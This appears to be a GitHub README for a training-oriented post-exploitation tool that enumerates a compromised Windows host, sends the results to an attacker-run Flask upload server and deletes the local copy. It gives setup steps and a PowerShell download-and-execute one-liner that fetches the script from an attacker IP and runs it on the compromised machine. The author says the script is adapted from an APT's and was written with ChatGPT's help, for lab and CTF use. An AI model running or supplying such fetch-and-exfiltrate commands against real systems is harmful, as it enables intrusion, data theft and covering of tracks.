 # Simple Enumeration and Transfer
The script will execute, conduct light enumeration, write to appdata/roaming with the file name HOSTNAME-IPADDRESS-DATE_TIME , transfer it to your attack machine and then delete the original version

Flask is needed for the upload server:
```
pipx install flask
```
## Steps
1. Host the upload_server.py
```
python3 upload_server.py
```
2. Edit the enum_transfer.ps1 with your IP:

![script](https://github.com/user-attachments/assets/4cf7fb55-9e63-4048-8c15-27a92ada7675)

3. Host enum_transfer.ps1 
```
python3 http.server 8000
```
4. On compromised machine, run the following
```
 IEX(New-Object Net.WebClient).DownloadString('http://attackip:8000/enum_transfer.ps1')
```

## Why?
I decided to attempt to modify a script used by an APT (seen below) to fit my training needs. As most of the machines in labs and CTF's aren't internet connected,
I wouldn't be able to exfil using Dropbox, so using ChatGPT I was able to craft this solution. If it's not apparent by the quality of the script, this
isn't my day job.

![APT Script](https://github.com/user-attachments/assets/10fffd46-ae48-4703-a636-a20e585176fa)
